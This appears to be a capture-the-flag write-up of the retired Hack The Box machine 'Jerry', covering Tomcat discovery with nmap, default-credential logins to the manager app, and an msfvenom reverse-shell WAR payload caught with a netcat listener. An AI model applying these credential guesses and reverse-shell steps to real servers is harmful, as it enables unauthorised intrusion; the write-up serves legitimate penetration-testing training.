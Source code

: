 ```yaml
---
layout: post
title: Hack The Box - Jerry
categories: hack-the-box
image: /hackthebox/jerry/0.jpg
redirect_from: "/HackTheBox-Jerry/"
---
```


<hr>
#### Jerry has retired and this is my write-up about it...
<br>
#### Jerry was one of the easiest boxes on HTB. It was a beginner-box . 
#### It's a windows box and its ip is 10.10.10.95
![](/images/hackthebox/jerry/0.jpg)
<hr>
<br>
#### Starting with nmap to scan for tcp ports and services :
`nmap -sV -sT 10.10.10.95`
![](/images/hackthebox/jerry/1.jpg)
<hr>
<br>
#### We can see that the port 8080 is open and running http and the server is Apache Tomcat.
#### By visiting it in the browser we get the default tomcat configuration page.
![](/images/hackthebox/jerry/2.png)
<hr>
<br>
#### There's a manager app so let's try to access it .
![](/images/hackthebox/jerry/3.png)
<hr>
<br>
#### It asks for authentication and common passwords like those mentioned below didn't work:
*tomcat:tomcat* <br>
*admin:admin* <br>
*admin:password* <br>
*user:password* <br>
#### So by closing the login panel it causes an error because we are not authorized to view the manager page
#### But by looking at the error page :
![](/images/hackthebox/jerry/4.png)
<hr>
<br>
#### It shows these credentials :
*tomcat:s3cret*
#### This seems to be a part of the documentation and those credentials are dafault credentials.
#### Will they work ? yup !
![](/images/hackthebox/jerry/5.png)
![](/images/hackthebox/jerry/6.png)
<hr>
<br>
## Exploitation
#### Now we are logged in to the manager app and we can get a shell from here
<br>
#### We are on an apache tomcat server and apache tomcat uses WAR files.
#### To get a reverse shell we will use msfvenom to create the payload :
<br>
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`
![](/images/hackthebox/jerry/7.jpg)
<br>
#### Then we will upload our payload to the server.
![](/images/hackthebox/jerry/8.jpg)
![](/images/hackthebox/jerry/9.jpg)
<br>
#### Then we will listen to the port with netcat :
<br>
`nc -lvnp 4449`
<hr>
<br>
#### Now we got a reverse shell as admin so there's no need for previlege escalation.

![](/images/hackthebox/jerry/10.jpg)
<br>
<br>
![](/images/hackthebox/jerry/11.jpg)
<br>
<br>
![](/images/hackthebox/jerry/12.jpg)
<br>
<hr>
#### Another way to do this is to use this tool written by **mgeeky** [TomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) to automate the process of getting a shell
![](/images/hackthebox/jerry/13.jpg)
<br>
#### And that was Jerry . 
#### Feedback is appreciated :D
<br>
#### Thanks for reading .
<br>
<hr>
